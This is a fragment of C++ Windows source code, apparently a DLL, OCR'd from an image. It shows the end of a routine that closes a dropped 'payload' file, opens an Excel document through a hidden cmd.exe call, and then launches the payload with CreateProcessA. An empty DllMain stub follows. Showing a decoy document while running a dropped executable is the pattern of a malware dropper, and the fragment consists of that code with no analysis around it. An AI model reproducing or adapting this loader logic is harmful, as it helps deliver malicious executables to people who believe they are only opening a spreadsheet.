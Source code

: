 ```

    CloseHandle(hPayloadFile);


    LPSTARTUPINFOA startupinfo_1 = new STARTUPINFOA();
    LPPROCESS_INFORMATION procinformation_1 = new PROCESS_INFORMATION();

    char process_name[MAX_PATH];

    strcpy_s(process_name, "c:\\windows\\system32\\cmd.exe /c \"\"");
    strcat_s(process_name, ExcelPath);
    strcat_s(process_name, "\" \"");
    strcat_s(process_name, excel_file_path);
    strcat_s(process_name, "\" \"");

    MessageBoxA(NULL, process_name,NULL , MB_OK);
    CreateProcessA(NULL, (LPSTR)process_name, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, startupinfo_1, procinformation_1);


    LPSTARTUPINFOA startupinfo_2 = new STARTUPINFOA();
    LPPROCESS_INFORMATION procinformation_2 = new PROCESS_INFORMATION();


    CreateProcessA(NULL, (LPSTR)payload_file_path, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, startupinfo_2, procinformation_2);



    return 0;
}



BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
